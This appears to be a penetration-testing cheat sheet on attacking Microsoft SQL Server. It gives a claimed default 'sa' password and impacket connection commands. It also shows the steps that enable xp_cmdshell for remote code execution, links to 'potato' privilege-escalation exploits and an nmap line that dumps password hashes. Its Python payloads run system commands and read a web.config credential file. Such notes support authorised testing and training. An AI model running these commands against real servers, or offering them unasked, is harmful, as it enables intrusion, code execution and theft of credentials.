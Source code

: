 Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet). Default port is 1433.

### Default Admin Credentials
---

```
Username: sa
Password: poiuytrewq
```

### impacket-mssqlclient
---

- The ``impacket`` Python library is incredibly powerful, and contains a tool for connecting to MSSQL databases.

```shell
# Connect to MS-SQL Server
impacket-mssqlclient <username>:'<password>'@<target>

# Connect to MS-SQL Server via default SA creds
impacket-mssqlclient sa:'poiuytrewq'@<target>
```

![[Pasted image 20230528134806.png]]

### xp_cmdshell
---

- ``xp_cmdshell`` is the most common way of establishing code execution via MSSQL.  By default it is disabled for security, but with the right privileges we can easily enable it.

Per Microsoft documentation, here is how to utilize ``sp_configure`` to enable ``xp_cmdshell``

![[Pasted image 20230306145014.png]]

Once ``xp_cmdshell`` is enabled, you can execute code on the SQL server.

```shell
# Enable XP_CMDSHELL for Remote Code Exection
> EXECUTE sp_configure 'show advanced options', 1;
> RECONFIGURE;
> EXECUTE sp_configure 'xp_cmdshell', 1;
> RECONFIGURE;
> xp_cmdshell '<command>'
```

![[Pasted image 20230528134406.png]]

### Privilege Escalation
---

- The user running MS-SQL server will often have enabled the privilege token ``SeImpersonatePrivilege`` -- this means we can exploit this privilege using one of the many exploits in the potato family to elevate to "NT AUTHORITY/SYSTEM"

Common Potatoes Exploiting "SeImpersonatePrivilege":
- https://github.com/tylerdotrar/GodPotatoNet (Self-Plug)
- https://github.com/BeichenDream/GodPotato
- https://github.com/itm4n/PrintSpoofer
- https://github.com/zcgonvh/EfsPotato

### Other
---
(Thank you [@numonce](https://github.com/numonce))

##### Nmap
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

##### sqsh
- ``sqsh`` is an interactive ms-sql client that is installed on kali by default. When used in conjunction with ``xp_cmdshell`` we can execute arbitrary PowerShell and cmd commands. 

![[Pasted image 20230103184704.png]]


##### Python
- Some versions of ms-sql allow you to execute inline python or R scripts.
```php
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
